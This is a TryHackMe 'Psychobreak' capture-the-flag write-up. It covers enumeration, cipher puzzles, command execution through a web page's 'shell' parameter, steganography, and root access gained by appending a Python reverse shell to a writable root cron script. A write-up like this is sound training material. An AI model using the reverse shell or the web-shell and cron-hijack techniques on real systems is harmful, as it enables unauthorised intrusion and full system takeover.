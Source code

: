 ```yaml
---
layout: post
title: Tryhackme - Psychobreak
date: 2020-11-14 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,puzzle]
---
```


---
<p>Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

<p>
Deploy the VM and let's go...
First up is enumeration</p>

## <ins>Task 1</ins>
---
<br>
![nmap_scan](/assets/img/tryhackme/psychobreak/nmap.PNG)
<br>
<p>A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.</p>


## <ins>Task 2</ins>
---
<br>
![http_service](/assets/img/tryhackme/psychobreak/3.png)
![room_hint](/assets/img/tryhackme/psychobreak/4.png)
<br>
<p>In the source page we can find the room name. Let’s go into the room.</p>

<br>
![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
<br>
<p>We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.</p>

<br>
![second_sadist_room](/assets/img/tryhackme/psychobreak/6.png)
<br>
<p>After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.</p>

<br>
![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
<br>
At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text.

<br>
![decode](/assets/img/tryhackme/psychobreak/8.png)
<br>
<p>After decoding, enter the decoded text to get access to map. Let’s move on to the next room…</p>

<br>
![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
<br>
<p>In the source code of the page we can find a hint.</p>

<br>
![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
<br>
<p>I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.</p>

<pre>gobuster dir -u http://ip-address/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100 </pre>

use gobuster with the medium wordlist to find the hidden directory.

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
After clicking on the link we are redirected to another page.

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
After clicking on the link, it redirects to another page.

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
After looking at the source page, I found a hint which told that the keyword “shell” would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….

<br>
<pre>http://ip-address/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls .. </pre>

![dir_list](/assets/img/tryhackme/psychobreak/21.png)
I downloaded the two files after moving into the other directory that was returned in the response.

## <ins>Task 3</ins>
---

The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.

<pre>binwalk -e image.jpg</pre>
After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
Using the message that is decrypted  to extract the contents of the other image file with steghide.

<pre>steghide --extract -sf image_file.jpg</pre>
The text file gives the ftp credentials. Let’s login to ftp…

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## <ins>Task 4</ins>
---

I found two files in the ftp server and I downloaded using the get command.

<pre>get file-name</pre>
![program](/assets/img/tryhackme/psychobreak/30.png)

After running the program file I found that it takes a word as a argument. So, I ran the bash script.

<pre>
for i in $(cat list.dic);
do
./program $i;
done
</pre>

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().


## <ins>Task 5</ins>
---

The decoded text is the SSH password. Without further wait, let’s login to ssh.

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
We found the user.txt in the home directory and some other hidden files

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
We also got the root flag.

## Bonus
---

![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

The bonus task is to delete the user ruvik

<pre>userdel -r ruvik</pre>
Run this as root

That’s it folks. Happy Hacking!!!
